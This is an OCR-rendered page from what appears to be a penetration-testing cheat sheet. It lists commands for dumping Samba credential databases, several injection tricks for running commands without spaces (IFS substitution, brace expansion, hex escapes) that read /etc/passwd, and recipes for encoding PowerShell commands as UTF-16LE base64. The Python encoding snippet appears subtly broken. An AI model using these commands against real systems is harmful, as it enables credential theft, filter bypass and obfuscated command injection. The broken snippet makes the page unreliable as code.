 <span id="anchor-175"></span>Dump Samba Credentials

|             |
| ----------- |
| pdbdump -Lw |

|                          |
| ------------------------ |
| pbtool **\<file\>** dump |

<span id="anchor-176"></span>Execute Commands Without Spaces (Examples)

<table>
<tbody>
<tr class="odd">
<td>IFS=,;`cat&lt;&lt;&lt;cat,/etc/passwd`<br />
cat$IFS/etc/passwd<br />
cat${IFS}/etc/passwd<br />
cat&lt;/etc/passwd               <br />
{cat,/etc/passwd} OR {ls,-las,/var} with args<br />
X=$'cat\x20/etc/passwd'&amp;&amp;$X</td>
</tr>
</tbody>
</table>

<span id="anchor-177"></span>Windows Commands

<span id="anchor-178"></span>PowerShell

<span id="anchor-179"></span>Encoding Commands from File (Linux)

|                                                       |
| ----------------------------------------------------- |
| iconv -f ASCII -t UTF-16LE **\<file\>** | base64 -w 0 |

<span id="anchor-180"></span>Encoding Commands from Inline (Linux)

|                                                          |
| -------------------------------------------------------- |
| echo "**\<command\>**" | iconv -t UTF-16LE | base64 -w 0 |

<span id="anchor-181"></span>Encoding Commands with Python

<table>
<tbody>
<tr class="odd">
<td><p>from base64 import b64encode</p>
<p>b64encode('<strong>&lt;command&gt;</strong>').encode('UTF-16LE')</p></td>
</tr>
</tbody>
</table>

<span id="anchor-182"></span>Encoding Commands with Ruby

<table>
<tbody>
<tr class="odd">
<td><p>require "base64"</p>
<p>Base64.encode64('<strong>&lt;command&gt;</strong>'.force_encoding('UTF-16LE'))</p></td>
</tr>
</tbody>
</table>
